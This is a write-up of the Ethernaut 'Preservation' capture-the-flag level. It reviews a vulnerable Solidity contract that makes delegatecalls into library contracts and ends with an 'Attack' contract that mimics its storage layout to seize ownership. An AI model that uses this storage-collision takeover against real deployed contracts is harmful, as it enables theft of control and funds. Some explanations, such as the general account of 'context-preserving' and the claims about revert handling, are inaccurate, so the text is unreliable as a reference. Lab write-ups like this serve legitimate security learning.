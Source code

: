 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel16.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Challenge's message:

> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored. The goal of this level is for you to claim ownership of the instance you are given. - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope. - Understanding what it means for delegatecall to be context-preserving. - Understanding how storage variables are stored and accessed. - Understanding how casting works between different data types.


The **Preservation** contract is a smart contract that allows users to set the time for **two different time zones using delegate calls to library contracts**. The contract has designed to be **upgradable**, meaning that the logic for setting the time is separated into external library contracts, **which can be swapped without modifying the main contract**. The `timeZone1Library` and `timeZone2Library` variables store the addresses of two public library contracts that handle the logic for setting the time in different time zones. And there is a **storedTime** variable which stores the timestamp set by the library contracts.

The `setTimeSignature` constant variable holds the function signature for the **setTime(uint256) function** from the LibraryContract. Function signatures are the **first four bytes of the hash of the function name and parameter types**, used in delegate calls to ensure that the called function is correctly identified.

In the rest of the contract, it gets the libraries' address in the constructor, and then delegate calls this library's `setTime()` function in the LibraryContract with **signature** and **timeStamp** variables. After this, it will be a new value of the **storedTime** variable.

In summary, the **Preservation** contract acts as a gateway to external library contracts (timeZone1Library and timeZone2Library) using delegate calls. By separating the time-setting logic into external libraries, the contract becomes more modular and upgradable. The library contract LibraryContract handles the actual time-setting logic, while the Preservation contract manages library addresses and delegates the time-setting calls to the appropriate library.

## Context-Preserving

Context-preserving refers to a property in software or programming languages where the execution context, state, or behavior of a program remains unchanged or preserved during certain operations or transformations. This property is particularly important in cases where modifications or transformations need to be performed on a program without altering its fundamental behavior or the results it produces.

In various programming scenarios, the context may refer to different aspects:

- **Execution Context:** In the context of running code, it refers to the current state of the program, including the values of variables, the position of the program counter, and other relevant information. When an operation is context-preserving, it means that after executing that operation, the program continues to behave the same way it would have without the operation.
- **Calling Context:** In the context of function calls, it refers to the set of values and the order of the call stack. When an operation is context-preserving, it means that calling the operation won't disrupt the call stack or produce unexpected side effects.
- **Language Semantics:** In the context of programming languages, it refers to the rules and behaviors defined by the language specification. When a transformation or operation is context-preserving, it means that it adheres to the language semantics and doesn't violate the expected behavior of the language constructs.

Context-preserving operations are desirable in many situations, especially in areas like program optimization, code refactoring, and code analysis. When performing these tasks, maintaining the original program's correctness and behavior is crucial to ensure the reliability and safety of the software. If a transformation is not context-preserving, it might introduce bugs, security vulnerabilities, or unintended behavior, making it challenging to reason about the program's behavior and predict its outcomes accurately.

## Context-Preserving Delegation to On-Chain Libraries

Using context-preserving techniques when delegating operations to on-chain libraries is essential to ensure that the behavior of the main contract remains unchanged while leveraging the functionality provided by the libraries. Delegating operations to on-chain libraries is a common practice in Solidity to achieve code modularity, reusability, and upgradability.

Here's how context-preserving delegation works and its implications on execution scope:

### Function Signature and Delegatecall

- The main contract defines a function signature that matches the desired function in the library contract.
- The function signature is used to perform a delegatecall to the library contract. **Delegatecall allows the library contract to execute its logic in the context of the main contract, retaining the main contract's storage and state**.


### Library Contract Logic

- The library contract contains the actual implementation of the delegated function.
- When the library contract is called using delegatecall, it can read and modify the storage variables of the main contract as if it were executing directly within the main contract's scope.

### Preserving Main Contract's State

- Since the delegatecall allows the library to access and modify the main contract's storage, it's crucial to be careful when implementing the library logic.
- The library should avoid overwriting critical state variables in the main contract to ensure that the main contract's behavior remains unchanged.
- It's important to document and follow specific guidelines when writing library contracts to prevent unintended side effects on the main contract's state.

## Implications on Execution Scope

### Shared Storage and State

- **When using delegatecall, the library contract operates within the same storage space as the main contract**. This means the **library can access and modify the main contract's state variables**.
- This shared storage can lead to unexpected interactions if the library modifies state variables that are critical to the main contract's functionality.

### Limited Error Handling

- If the library contract encounters an error or reverts, **it will not revert the main contract's state changes made before the delegatecall**.
- This can make error handling challenging since the main contract might not be aware of the library's internal behavior and cannot rely on typical try-catch mechanisms.


### Security Considerations

- Careful attention should be given to the library contracts to avoid introducing security vulnerabilities.
- Malicious or poorly implemented libraries can lead to unexpected behavior and potential attacks on the main contract.

In conclusion, context-preserving delegation to on-chain libraries enables code reuse and modularity while allowing for upgradability. However, developers need to be cautious when implementing and using library contracts to ensure that the main contract's behavior and state are preserved, and potential security risks are minimized. Proper testing and auditing of library contracts are crucial to avoid unintended consequences and ensure the overall security and functionality of the system.


# Subverting

```solidity
pragma solidity ^0.8.20;

contract Attack{

    // imitation the `Preservation` contract layout structure
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time)public{
        owner = msg.sender;
    }

}
```
